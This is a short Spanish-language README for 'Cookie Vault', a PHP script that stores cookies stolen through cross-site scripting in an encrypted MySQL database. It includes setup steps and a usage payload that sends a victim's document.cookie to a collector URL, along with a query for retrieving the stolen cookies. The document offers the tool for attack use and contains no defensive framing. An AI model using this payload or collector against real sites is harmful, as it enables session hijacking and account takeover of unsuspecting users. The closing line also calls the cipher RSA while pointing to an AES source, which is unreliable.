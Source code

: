 Cookie Vault
---
Pequeño script en PHP para almacenar de forma cifrada cookies obtenidas mediante XSS.

Instalación
---

1. Copiar los ficheros `query.php` y `add.php` junto a `AES.php` (http://aesencryption.net) en un servidor web con PHP y acceso a una base de datos MySQL.
2. Modificar la línea 49 del fichero `add.php` con la información necesaria para el acceso a la base de datos MySQL.
3. Modificar la línea 81 del fichero `add.php` con la segunda passphrase para la encriptación.
4. Ejecutar el fichero `import.sql` para importar la base de datos.

Uso
---
Añadir cookie en la base de datos:
```
"http://example.com/c_steal/add.php?URL=webvuln.com&KEY=p4ssphrase&COOKIE=" + document.cookie
```

Consultar cookies en la base de datos:
```
"http://example.com/c_steal/query.php?URL=webvuln.com&KEY=p4ssphrase
```

El algoritmo utilizado para el cifrado RSA (no incluido aquí) se encuentra disponible en: http://aesencryption.net

